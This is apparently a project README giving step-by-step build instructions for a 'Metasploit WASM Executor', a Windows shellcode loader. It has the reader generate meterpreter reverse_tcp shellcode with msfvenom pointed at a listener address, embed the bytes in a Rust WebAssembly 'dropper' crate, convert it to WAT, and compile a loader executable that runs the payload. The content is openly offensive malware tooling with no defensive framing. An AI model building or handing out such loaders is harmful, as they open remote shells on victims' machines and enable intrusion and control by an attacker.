 # Metasploit WASM Executor

## Dependencies
```sh
cargo install wasm-pack
```

## Install Wasm2Wat Windows
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-windows.tar.gz
```

## Install Wasm2Wat Linux
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-ubuntu-20.04.tar.gz
tar -xzf wabt.tar.gz
```

- First, we need to get some shellcode from Metasploit
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER IP ADDR> LPORT=<LISTNER PORT> -f rust
```

- Copy the output from that command into `./wasm_dropper/src/lib.rs` 
- Name it `WASM_MEMORY_BUFFER` and change the const to be static
- `WASM_MEMORY_BUFFER` should have the following signature:

```rust
static WASM_MEMORY_BUFFER: [u8; WASM_MEMORY_BUFFER_SIZE] = [
    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,
    ...
];
```

## Build the wasm binary
```sh
cd wasm_dropper && wasm-pack build --release && cd ..
```

## Now convert the wasm binary from .wasm to .wat using *wasm2wat*
```sh
./wabt/bin/wasm2wat.exe ./wasm_dropper/target/wasm32-unknown-unknown/release/wasm_dropper.wasm -o ./wasm_loader/src/wasm_dropper.wat
```

## Now build the Loader
```sh
cd wasm_loader && cargo build --release && cd ..
```

# The Loader Binary is now in `./wasm_loader/target/release/wasm_loader.exe`
